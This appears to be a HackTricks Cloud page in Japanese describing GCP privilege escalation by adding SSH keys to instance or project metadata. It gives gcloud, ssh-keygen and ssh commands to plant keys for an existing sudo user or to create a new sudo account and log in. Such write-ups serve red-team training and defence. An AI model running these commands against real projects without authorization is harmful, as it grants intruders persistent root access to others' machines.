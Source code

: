 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

インスタンスのメタデータの変更は、**攻撃者が必要な権限を取得した場合、重大なセキュリティリスクを引き起こす可能性があります**。

#### **カスタムメタデータへのSSHキーの組み込み**

GCPでは、**Linuxシステム**はしばしば[Google Compute Engine用のPython Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)からスクリプトを実行します。この重要なコンポーネントは、**認可されたSSH公開鍵の更新**のためにインスタンスメタデータエンドポイントを**定期的にチェック**するように設計された[アカウントデーモン](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)です。

したがって、攻撃者がカスタムメタデータを変更できる場合、デーモンが新しい公開鍵を見つけるようにし、それが処理されて**ローカルシステムに統合される**ことになります。この鍵は、**既存のユーザーの`~/.ssh/authorized_keys`ファイルに追加されるか、鍵の形式に応じて`sudo`権限を持つ新しいユーザーが作成される可能性があります**。攻撃者はホストを侵害することができます。

#### **既存の特権ユーザーにSSHキーを追加する**

1. **インスタンス上の既存のSSHキーを調査する:**
*   インスタンスとそのメタデータを記述するコマンドを実行して、既存のSSHキーを見つけます。出力の関連セクションは`metadata`の下、特に`ssh-keys`キーの下にあります。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSHキーの形式に注意してください: ユーザー名は鍵の前にあり、コロンで区切られています。
2. **SSHキーのメタデータ用のテキストファイルを準備する:**
* ユーザー名とそれに対応するSSHキーの詳細を`meta.txt`という名前のテキストファイルに保存します。これは、新しいキーを追加しながら既存のキーを保持するために重要です。
3. **ターゲットユーザー（この例では`alice`）のために新しいSSHキーを生成する:**
*   `ssh-keygen`コマンドを使用して新しいSSHキーを生成し、コメントフィールド（`-C`）がターゲットユーザー名と一致するようにします。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 新しい公開鍵を`meta.txt`に追加し、インスタンスのメタデータに見られる形式を模倣します。
4. **インスタンスのSSHキーのメタデータを更新する:**
*   `gcloud compute instances add-metadata`コマンドを使用して、更新されたSSHキーのメタデータをインスタンスに適用します。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **新しいSSHキーを使用してインスタンスにアクセスする:**
*   新しいキーを使用してSSHでインスタンスに接続し、ターゲットユーザー（この例では`alice`）のコンテキストでシェルにアクセスします。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **新しい特権ユーザーを作成し、SSHキーを追加する**

興味深いユーザーが見つからない場合は、`sudo`権限を与えられる新しいユーザーを作成することが可能です:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### プロジェクトレベルのSSHキー <a href="#sshing-around" id="sshing-around"></a>

**プロジェクトレベルでSSHキーを適用することにより、クラウド環境内の複数の仮想マシン（VM）へのSSHアクセスの範囲を広げることが可能です。** このアプローチにより、プロジェクト内の明示的にプロジェクト全体のSSHキーをブロックしていないインスタンスへのSSHアクセスが可能になります。以下は要約ガイドです：

1. **プロジェクトレベルでSSHキーを適用する：**
*   `gcloud compute project-info add-metadata`コマンドを使用して、`meta.txt`からプロジェクトのメタデータにSSHキーを追加します。このアクションにより、VMが「プロジェクト全体のSSHキーをブロック」オプションを有効にしていない限り、プロジェクト内のすべてのVMでSSHキーが認識されます。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **プロジェクト全体のキーを使用してインスタンスにSSH接続する：**
* プロジェクト全体のSSHキーが設定されている場合、プロジェクト内の任意のインスタンスにSSH接続できます。プロジェクト全体のキーをブロックしていないインスタンスはSSHキーを受け入れ、アクセスを許可します。
* インスタンスにSSH接続する直接的な方法は、`gcloud compute ssh [INSTANCE]`コマンドを使用することです。このコマンドは、現在のユーザー名とプロジェクトレベルで設定されたSSHキーを使用してアクセスを試みます。

## 参考文献

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
